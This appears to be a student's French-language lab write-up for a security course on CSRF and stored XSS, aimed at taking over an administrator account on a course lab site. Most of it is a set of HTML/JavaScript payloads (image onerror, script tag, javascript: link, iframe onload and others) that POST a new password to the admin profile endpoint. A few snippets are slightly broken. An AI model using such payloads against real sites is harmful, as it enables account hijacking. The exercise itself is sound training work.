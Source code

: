 # Lab 1

## CSRF Simple

### 1. Quelle fonctionnalité du site, potentiellement vulnérable à une faille CSRF, pourriez-vous exploiter pour voler le compte administrateur ?


```javascript

fetch("http://basic.csrf.slh.cyfr.ch/profile/nathan.rayburn", {
  "Content-Type": "application/x-www-form-urlencoded",
  "body": "password=test",
  "method": "POST",
});
```


### 2. Proposez une requête qui vous permettra de prendre le contrôle du compte admin, si elle était exécutée par l’administrateur

   
### 3. Ecrivez une payload javascript qui exécute la requête.

```html
<img src="invalid.jpg" onerror="
  fetch('http://basic.csrf.slh.cyfr.ch/profile/nathan.rayburn_admin', {
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'password=test',
    method: 'POST'
  });
">

<script type="text/javascript">
  fetch('http://basic.csrf.slh.cyfr.ch/profile/nathan.rayburn_admin', {
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'password=test',
    method: 'POST'
  });
</script>

<a href="javascript:fetch('http://basic.csrf.slh.cyfr.ch/profile/nathan.rayburn_admin', {
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded'
  },
  body: 'password=test',
  method: 'POST'
});">
  Click here
</a>

<textarea oninput="
  fetch('http://basic.csrf.slh.cyfr.ch/profile/nathan.rayburn_admin', {
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'password=test',
    method: 'POST'
  });
"></textarea>

<input type="hidden" value="hidden value" onload="
  fetch('http://basic.csrf.slh.cyfr.ch/profile/nathan.rayburn_admin', {
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'password=test',
    method: 'POST'
  });
">

<iframe src="about:blank" onload="
  fetch('http://basic.csrf.slh.cyfr.ch/profile/nathan.rayburn_admin', {
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'password=test',
    method: 'POST'
  });
"></iframe>

<img src="invalid.jpg" onerror="
  fetch('http://basic.csrf.slh.cyfr.ch/profile/nathan.rayburn_admin', {
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'password=test',
    method: 'POST'
  });
">


```


### 4. Quelle fonctionnalité du site, potentiellement vulnérable à une faille Stored XSS, pourriez-vous exploiter pour faire exécuter votre payload

